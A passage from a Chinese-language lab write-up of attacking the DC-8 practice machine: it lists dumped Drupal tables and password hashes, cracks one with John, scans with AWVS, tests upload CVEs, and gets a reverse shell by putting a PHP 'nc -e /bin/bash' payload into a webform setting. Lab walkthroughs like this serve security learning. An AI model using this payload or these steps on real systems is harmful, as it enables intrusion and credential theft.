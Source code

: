 ```
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
| webform                     |
| webform_component           |
| webform_conditional         |
| webform_conditional_actions |
| webform_conditional_rules   |
| webform_emails              |
| webform_last_download       |
| webform_roles               |
| webform_submissions         |
| webform_submitted_data      |
+-----------------------------+
```

优先查询users

```
dc8blah@dc8blah.org | dcau-user@outlook.com | admin   |  $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john@blahsdfsfd.org | john@blahsdfsfd.org   | john    |  $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

能查询到admin以及john用户，但是二者的密码都经过了加密，尝试暴力破解，根据第二个用户名的提示，使用john进行破解

![john](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\john.png)

得到密码turtle,admin的密码是出不来的，登录john的账号，利用awvs进行深度扫描

![awvs](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\awvs.png)

扫描出来高危漏洞存在，选择了一个任意代码执行的漏洞进行尝试

CVE-2020-13671/CVE-2020-36193/CVE-2020-28948,通过添加一个uploadfiles模块，我开始对这三个CVE进行测试，但是双扩展名似乎并不起效，我在读取文件时，同样是以txt文本的形式进行解析，前前后后测试了3个小时左右，能得到的结果为

```
php ==>增加后缀名txt，不允许截断
phar,phtml ==>同php文件
inc,phps  ==>解析但不允许访问
其余扩展名均不解析
```

不过在测试中能看到一个formsetting处能够执行phpcode，可以尝试利用该点进行shell反弹，该页面的逻辑是通过提交表单成功后执行php代码

```
<?php 
system('nc -e /bin/bash 192.168.121.135 4444');
?>
```

提交表单，成功反弹shell

